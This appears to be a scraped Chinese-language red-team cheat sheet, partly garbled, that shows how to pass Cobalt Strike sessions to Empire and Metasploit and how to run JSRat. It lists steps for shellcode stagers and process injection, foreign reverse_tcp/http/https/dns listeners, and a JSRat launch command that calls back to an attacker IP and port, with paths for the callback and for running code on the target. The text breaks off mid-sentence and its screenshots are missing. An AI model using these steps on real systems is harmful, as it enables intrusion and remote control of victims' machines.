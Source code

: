 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
**`删除`**
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

#### **Cobalt strike派生 Empire和MSF**

##### **派生Empire**

```
`创建一个Listener``创建一个stager``>usestager windows/shellcode 执行，会生成/tmp/launcher.bin``CS 使用PS命令查找进程，进行进程注入(>shinject 进程id x64)，选择launcher.bin即可`
```

```
**派生MSF**  

```

```
`使用CS的外部监听器``windows/foreign/reverse_dns_txt``windows/foreign/reverse_http``windows/foreign/reverse_https``windows/foreign/reverse_tcp``msf开启监听``cobalt strike会话主机上点击spwan，创建外部监听器，选择windows/foreign/reverse_tcp指定MSF监听的IP和端口即可`
```

```
**JSRat**  

```

```
`https://github.com/Hood3dRob1n/JSRat-Py``https://github.com/Ridter/MyJSRat``启动``>python JSRat.py -i 192.168.0.107 -p 1234``MyJSRat可以-c参数指定执行的命令`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
/connect是回连地址，/wtf是执行代码
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
直接在靶机执行
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
或  

```
